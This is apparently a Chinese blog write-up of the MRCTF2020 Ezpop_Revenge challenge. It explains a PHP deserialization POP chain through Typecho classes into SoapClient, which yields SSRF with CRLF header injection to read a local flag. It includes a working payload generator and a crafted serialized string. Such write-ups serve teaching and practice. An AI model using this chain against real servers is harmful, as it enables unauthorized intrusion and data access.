 ```yaml
---
title: '[MRCTF2020]Ezpop_Revenge'
date: 2024-12-04 19:11:50
tags: 
      - 反序列化
      - 代码审计
categories: 刷题笔记
---
```


## [MRCTF2020]Ezpop_Revenge

我们扫描目录发现www.zip可以下载，由于题目为pop，我们想到反序列化

在文件中查找unserialize函数

我们找到输入点

![image-20241205191504586](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412051915706.png)

在插件中，我们发现action()的代码

这儿需要说明一下，这儿的action一般是自动加载的，当路由加载类是会自动加载某个[函数](https://marketing.csdn.net/p/3127db09a98e0723b83b2914d9256174?pId=2782&utm_source=glcblog&spm=1001.2101.3001.7020)，所以我们直接搜索这个类的名称

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/d4c6cac9c9f27f8f2ef3ef0cd06fc5bd.png)

```
Helper::addRoute("page_admin_action","/page_admin","HelloWorld_Plugin",'action');
```

这句代码的意思就是访问/page_admin的时候，会自动加载HelloWorld_Plugin类，而且会自动调用action函数，所以我们输入点的路由为/page_admin

**寻找pop链**

在根目录下我们发现flag文件

![image-20241205192515158](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412051925190.png)

usr下面的Plugin.php中间有个类

![image-20241205193348839](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412051933888.png)

我们跟进Typecho_Db

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9f340fb3c18b2921c8d6f4c8df52347d.png)

然后在Typecho_Db的__construct中发现字符串拼接，这个时候我们就知道肯定调用了某个类的`__tostring`,因为$adapterName我们可控

所以我们直接搜索`__tostring`

![image-20241205193709136](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412051937202.png)

然后跟踪到Query.php的___toString

假如`Typecho_Db::SELECT（静态值）`的值为`SELECT`，则跟进`$this->_adapter`

我们发现这个值我们也是可控的，这个时候我们控制`_adapter`为soap类就可以了

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7ee484745c67c10db6d19891887ef341.png)

是时候树立一下pop链，首先是/usr下的Plugins.php反序列化调用HelloWorld_DB触发Typecho_DB类，并且可以控制其中的`$adapterName``$adapterName`拼接到字符串中，触发`__tostring`，所以这个时候我们使得`$adapterName`为`Query.php`中的`Typecho_Db_Query`类，并且控制私有变量`$_adapter`为soap类来本地访问flag.php

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9d2a6a025048e87bb5b7ce72e234d9e2.png)

这个时候再访问soap的`parseSelect`方法，但是此方法并不存在，所以就会触发soap的`__call`方法来达到本地访问的目的 

payload

```
<?php

class Typecho_Db_Query
{
    private $_sqlPreBuild;
    private $_adapter;

    public function __construct()
    {
       $target = 'http://127.0.0.1/flag.php';
		$headers = array(
		'X-Forwarded-For: 127.0.0.1',
		'Cookie: PHPSESSID=u7818vin3dl5lja95o9obvgqp5'
		);
		$b = new SoapClient(null,array('location' => $target,'user_agent'=>'HyyMbb^^'.join('^^',$headers),'uri'      => "aaab"));
        $this->_sqlPreBuild =array("action"=>"SELECT");
        $this->_adapter = $b;
    }
}


class HelloWorld_DB
{
    private $coincidence;

    public function __construct()
    {
        $this->coincidence = ["hello" => new Typecho_Db_Query()];
    }
}

$a = new HelloWorld_DB();
$aaa = serialize($a);

```

这个时候先生成序列化的值，然后再做一些小处理

我们都知道私有变量类名的前后都有%00，但是某些特定版本的情况下，这样也会出错

这个时候我们需要将s改为S，并添加`\00`

如同这个样子

```
$aaa = 'O:13:"HelloWorld_DB":1:{S:26:"\00HelloWorld_DB\00coincidence";a:1:{s:5:"hello";O:16:"Typecho_Db_Query":2:{S:30:"\00Typecho_Db_Query\00_sqlPreBuild";a:1:{s:6:"action";s:6:"SELECT";}S:26:"\00Typecho_Db_Query\00_adapter";O:10:"SoapClient":5:{s:3:"uri";s:4:"aaab";s:8:"location";s:25:"http://127.0.0.1/flag.php";s:15:"_stream_context";i:0;s:11:"_user_agent";s:79:"wupco^^X-Forwarded-For: 127.0.0.1^^Cookie: PHPSESSID=a8vkg6l5j5sesvqan5q5s4obr1";s:13:"_soap_version";i:1;}}}}';

```

然后再添加\r\n，base64编码

```
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo base64_encode($aaa);

```

我们soap访问的`PHPSESSID`的值为`a8vkg6l5j5sesvqan5q5s4obr1`

这个时候访问`/page_admin`页面

![image-20241205201022903](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412052010972.png)

然后我们刷新页面，将之前的session重新填上



得到flag

![image-20241205201156209](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412052011246.png)

参考

https://blog.csdn.net/a3320315/article/details/105215741

写在最后，再说一下为啥要更换s，和添加\00，而不是直接编码
都知道private属性会在反序列化的生成一个标志性的%00，关于这个坑点p神是这么说的

PHP序列化的时候private和protected变量会引入不可见字符\x00，输出和复制的时候可能会遗失这些信息，导致反序列化的时候出错。

private属性序列化的时候会引入两个\x00，注意这两个\x00就是ascii码为0的字符。这个字符显示和输出可能看不到，甚至导致截断，如图1，url编码后就可以看得很清楚了。

同理，protected属性会引入\x00*\x00。

此时，为了更加方便进行反序列化Payload的传输与显示，我们可以在序列化内容中用大写S表示字符串，此时这个字符串就支持将后面的字符串用16进制表示。比如s:5:”A<null_byte>B“;̀ -> S:5:”A\00B\09\0D”;
